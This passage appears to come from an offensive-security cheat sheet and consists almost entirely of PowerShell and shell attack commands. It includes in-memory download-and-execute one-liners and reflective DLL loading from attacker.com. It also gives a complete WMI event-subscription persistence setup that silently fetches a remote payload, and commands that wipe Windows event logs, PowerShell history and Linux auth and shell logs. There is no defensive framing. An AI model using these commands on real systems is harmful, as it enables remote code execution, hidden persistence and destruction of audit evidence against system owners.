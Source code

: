 ### PowerShell-Based

```powershell
# In-memory execution
IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')

# Reflective DLL injection
$bytes = (New-Object Net.WebClient).DownloadData('http://attacker.com/dll.dll')
[System.Reflection.Assembly]::Load($bytes)

# PowerShell Empire
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/empire.ps1')"
```

### WMI-Based

```powershell
# WMI event subscription for persistence
$FilterArgs = @{name='Updater'; EventNameSpace='root\CimV2'; QueryLanguage='WQL'; Query='SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA "Win32_PerfFormattedData_PerfOS_System"'}
$Filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='Updater'; CommandLineTemplate='powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX(New-Object Net.WebClient).DownloadString("http://attacker.com/payload.ps1")'}
$Consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{Filter = [Ref] $Filter; Consumer = [Ref] $Consumer}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

## Anti-Forensics

### Log Clearing

```powershell
# Windows Event Logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

# Linux logs
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
echo "" > ~/.bash_history
history -c
```
